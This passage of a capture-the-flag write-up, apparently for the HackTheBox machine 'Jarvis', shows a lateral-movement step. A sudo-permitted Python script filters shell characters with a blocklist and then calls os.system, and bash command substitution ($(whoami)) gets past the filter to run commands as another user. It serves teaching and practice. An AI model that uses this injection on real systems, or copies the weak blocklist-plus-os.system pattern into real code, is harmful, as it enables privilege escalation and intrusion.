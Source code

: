 ## Lateral Movement
Looking at the sudo permissions for `www-data`, we can see that i can execute `simpler.py` as the user `pepper`.
```bash
www-data@jarvis:/var/www/html$ sudo -l
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
```
Looking at the script, we can see that it takes `IP` address on using the `-p` argument,and then uses the `os.system()` function to execute `ping`.
```python
<SNIP>
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)

if __name__ == '__main__':
    show_header()

  <SNIP>

    elif sys.argv[1] == '-p':
        exec_ping()
        exit()
    else:
        show_help()
        exit()
```

For the script we can understand that few characters(&;-|) are blocke by the script, in order to prevent injecion. But the character `$`, `(` and `)` aren't blocked. This will let us inject commands through bash command substitution. `i.e $(cmd)`. Let's check if its working using `$(whoami)`.
```  
www-data@jarvis:/var/www/html$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP: $(whoami)
ping: pepper: Temporary failure in name resolution
```
